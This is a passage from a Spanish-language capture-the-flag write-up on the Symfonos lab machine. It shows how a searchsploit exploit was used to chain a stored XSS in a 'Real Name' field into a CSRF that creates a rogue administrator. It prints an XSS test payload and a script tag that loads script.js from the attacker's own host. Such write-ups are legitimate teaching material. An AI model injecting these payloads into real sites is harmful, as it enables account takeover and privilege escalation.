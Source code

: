 ![chang](https://helhat.github.io/assets/img/Symfonos/chang.png){: .normal }

Enumerando los archivos encontramos un upgrading, al leer encontramos que tiene una ultima actualizacion.

![vers](https://helhat.github.io/assets/img/Symfonos/vers.png){: .normal }

Buscamos un exploit con esta version en searchsploit y econtramos la version que coincide con la encontrada.
En esta tiene una descripcion que indica en que parametro se acontece el XSS y que luego se genera un CSRF con un usuario hacker con permisos administrador.

![desc](https://helhat.github.io/assets/img/Symfonos/desc.png){: .normal }

Adicionalmente se nos brinda el script, esto lo copiaremos y guardaremos.

![script](https://helhat.github.io/assets/img/Symfonos/script.png){: .normal }

Antes de ello observamos que nos podemos registrar.

![reg](https://helhat.github.io/assets/img/Symfonos/reg.png){: .normal }

Entonces procedemos a registrar una cuenta, y en la ruta que se nos indico en el script, existe un parametro *Real Name*, que es vulnerable a XSS, ademas tenemos un usuario admin que ejecuta una accion de actualizacion en el sistema, esto servira para aplicar el CSRF.

![real](https://helhat.github.io/assets/img/Symfonos/real.png){: .normal }
![admin](https://helhat.github.io/assets/img/Symfonos/admin.png){: .normal }

Entonces el primer paso sera verificar si es vulnerable a XSS. Pero observamos que no se ejecuta correctamente,vemos un simbolo que aparece, por ende intuimos que se agrega ">

![xss](https://helhat.github.io/assets/img/Symfonos/xss.png){: .normal }

```
"><script>alert("xss")</script>
```
Al cargar el ID de nuestro usuario, se ejecuta el popup.Confirmando el XSS. De igual manera sucede al ver un comentario.

![xss2](https://helhat.github.io/assets/img/Symfonos/xss2.png){: .normal }
![xss3](https://helhat.github.io/assets/img/Symfonos/xss3.png){: .normal }

Entonces confirmado el XSS, ya podemos aplicar el CSRF para que cree un nuevo usuario administrador. 
Para que cargue este script, forzamos a que cargue este recurso externo con:
```
"><script src="http://192.168.65.139/script.js"></script>
```
Compartimos el archivo con python.
Esperamos que exista la peticion GET.

![serv](https://helhat.github.io/assets/img/Symfonos/serv.png){: .normal }
